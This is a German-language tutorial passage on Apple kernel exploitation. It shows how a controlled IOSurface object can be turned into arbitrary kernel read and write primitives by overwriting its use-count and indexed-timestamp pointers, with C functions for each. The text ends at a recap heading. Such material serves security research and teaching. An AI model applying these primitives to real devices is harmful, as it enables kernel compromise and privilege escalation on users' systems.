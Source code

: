 Nachdem wir die Kontrolle über ein IOSurface-Objekt im Kernel-Speicher (zu einer freigegebenen physischen Seite, die aus dem Benutzerspeicher zugänglich ist, gemappt) erlangt haben, können wir es für **willkürliche Kernel-Lese- und Schreiboperationen** verwenden.

**Wichtige Felder in IOSurface**

Das IOSurface-Objekt hat zwei entscheidende Felder:

1. **Use Count Pointer**: Ermöglicht ein **32-Bit-Lesen**.
2. **Indexed Timestamp Pointer**: Ermöglicht ein **64-Bit-Schreiben**.

Durch das Überschreiben dieser Zeiger leiten wir sie an willkürliche Adressen im Kernel-Speicher um, was Lese-/Schreibfähigkeiten ermöglicht.

#### 32-Bit Kernel-Lesen

Um ein Lesen durchzuführen:

1. Überschreiben Sie den **Use Count Pointer**, um auf die Zieladresse minus eines 0x14-Byte-Offsets zu zeigen.
2. Verwenden Sie die Methode `get_use_count`, um den Wert an dieser Adresse zu lesen.
```c
uint32_t get_use_count(io_connect_t client, uint32_t surfaceID) {
uint64_t args[1] = {surfaceID};
uint32_t size = 1;
uint64_t out = 0;
IOConnectCallMethod(client, 16, args, 1, 0, 0, &out, &size, 0, 0);
return (uint32_t)out;
}

uint32_t iosurface_kread32(uint64_t addr) {
uint64_t orig = iosurface_get_use_count_pointer(info.object);
iosurface_set_use_count_pointer(info.object, addr - 0x14); // Offset by 0x14
uint32_t value = get_use_count(info.client, info.surface);
iosurface_set_use_count_pointer(info.object, orig);
return value;
}
```
#### 64-Bit Kernel Write

Um einen Schreibvorgang durchzuführen:

1. Überschreiben Sie den **indizierten Zeitstempelzeiger** mit der Zieladresse.
2. Verwenden Sie die Methode `set_indexed_timestamp`, um einen 64-Bit-Wert zu schreiben.
```c
void set_indexed_timestamp(io_connect_t client, uint32_t surfaceID, uint64_t value) {
uint64_t args[3] = {surfaceID, 0, value};
IOConnectCallMethod(client, 33, args, 3, 0, 0, 0, 0, 0, 0);
}

void iosurface_kwrite64(uint64_t addr, uint64_t value) {
uint64_t orig = iosurface_get_indexed_timestamp_pointer(info.object);
iosurface_set_indexed_timestamp_pointer(info.object, addr);
set_indexed_timestamp(info.client, info.surface, value);
iosurface_set_indexed_timestamp_pointer(info.object, orig);
}
```
#### Exploit Flow Recap
